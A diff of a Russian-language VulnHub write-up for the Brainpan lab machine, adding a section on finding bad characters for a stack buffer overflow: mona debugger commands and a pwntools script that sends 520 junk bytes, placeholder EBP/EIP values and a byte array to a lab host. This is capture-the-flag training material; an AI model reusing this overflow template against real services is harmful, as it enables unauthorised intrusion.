

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: 41-Brainpan/writeup.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/41-Brainpan/writeup.md
+++ b/41-Brainpan/writeup.md
@@ -214,4 +214,58 @@ io.interactive()
 Получаю контроль над адресом возврата
 <img width="1920" height="1022" alt="image" src="https://github.com/user-attachments/assets/90061dc7-7b56-4a39-993c-306a052ba824" />
 
-Далее ищу **badchars**
+### Далее ищу **badchars**
+
+Небольшая настройка immunity debugger
+`!mona config -set workingfolder c:\mona\%p`
+
+Массив байтов можно сгенерировать в **mona** и исключить из него нулевой **"\x00"**
+`!mona bytearray -b "\x00"`
+
+А можно написать код **python**
+```python
+exclude_list = ["\\x00"]
+
+for x in range(1, 256):
+    hex_str = "\\x" + "{:02x}".format(x)
+    if hex_str not in exclude_list:
+        print(hex_str, end='')
+print()
+```
+
+Я буду использовать такой код и генерировать массив байтов прямо в шаблоне:
+```python
+from pwn import *
+
+context.update(arch='i386')
+exe = './brainpan.exe'
+
+host = args.HOST or '192.168.56.124'
+port = int(args.PORT or 9999)
+
+#====================PAYLOAD DEFINITION=====================
+junk    = b'A'*520
+EBP     = b'B'*4
+EIP     = b'C'*4
+
+exclude_list = ["\\x00"]
+stack   = ''.join(f"\\x{x:02x}" for x in range(1, 256) if f"\\x{x:02x}" not in exclude_list)
+log.info(b'-------------------------------------------')
+log.success(f'badchars: {stack}')
+log.info(b'-------------------------------------------')
+
+payload = b''.join([
+    junk,
+    EBP,
+    EIP,
+    stack.encode('latin-1'),
+])
+#========================CONNECTION=========================
+io = start()
+
+print(io.recv().decode('utf-8'))
+io.sendline(payload)
+
+io.interactive()
+```
+
````
Also changed, not shown: other parts of 41-Brainpan/writeup.md (+6 -0 lines).
